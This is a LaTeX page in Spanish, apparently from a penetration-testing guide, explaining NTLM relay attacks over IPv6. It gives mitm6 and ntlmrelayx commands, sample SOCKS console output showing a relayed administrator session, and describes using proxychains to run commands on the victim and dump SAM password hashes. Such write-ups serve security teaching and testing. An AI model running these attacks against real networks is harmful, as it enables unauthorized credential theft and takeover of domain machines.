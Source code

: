 \documentclass[a4paper, 11pt]{article}
\begin{document}
Es posible que algunas empresas mitiguen este tipo de ataques configurando adecuadamente el cortafuegos para bloquear intentos de envenenamiento de red sobre IPv4. Sin embargo, en muchos casos no se implementan medidas equivalentes para el protocolo IPv6, lo que deja una vía de entrada abierta. Si IPv6 no está debidamente deshabilitado o protegido, puede ser explotado de forma similar mediante técnicas de suplantación.

Mediante \texttt{mitm6}, un atacante puede suplantar un servidor DHCPv6 y redirigir el tráfico de autenticación hacia su equipo, permitiendo realizar ataques \textbf{NTLM Relay sobre IPv6} combinados con \texttt{ntlmrelayx} en modo SOCKS:

\begin{lstlisting}[language=bash, style=terminalstyle, caption=Relay IPv6 con túnel SOCKS]
$ mitm6 -d dominio.local
$ ntlmrelayx.py -6 -wh "IP Atacante" -t smb://"IP Víctima" -socks -smb2support -debug
\end{lstlisting}

Desde la consola interactiva de \texttt{ntlmrelayx}, mediante el comando \texttt{socks}, se puede habilitar un túnel que permite monitorizar las conexiones entrantes hacia los objetivos especificados. En esta consola se mostrará una tabla de usuarios del dominio que intentan acceder a recursos compartidos sobre los equipos comprometidos. 


\begin{lstlisting}[language=bash, style=terminalstyle, caption=Vista del túnel SOCKS en ntlmrelayx]
ntlmrelayx> socks
Protocol  Target         Username             AdminStatus  Port
--------  -------------  -------------------  -----------  ----
SMB       192.168.94.138  \\DOMINIO\USUARIO     TRUE         445
ntlmrelayx> [+] KeepAlive Timer reached. Updating connections
[+] Calling keepAlive() for \\DOMINIO\USUARIO@192.168.0.2:445
\end{lstlisting}


Es habitual que algunos de estos usuarios posean privilegios administrativos sobre la víctima, es decir, aparezcan con \texttt{adminstatus=true}. Aprovechando este túnel, podemos utilizar herramientas como \texttt{proxychains} para redirigir el tráfico a través del relay y ejecutar comandos directamente sobre la víctima como si fuéramos ese usuario con privilegios.

Por ejemplo, se puede solicitar la información contenida en el archivo SAM (Security Account Manager), el cual almacena los hashes de las contraseñas de los usuarios locales del sistema, utilizando las credenciales capturadas de un usuario con privilegios administrativos y sin necesidad de conocer la contraseña del usuario del sistema.
\end{document}
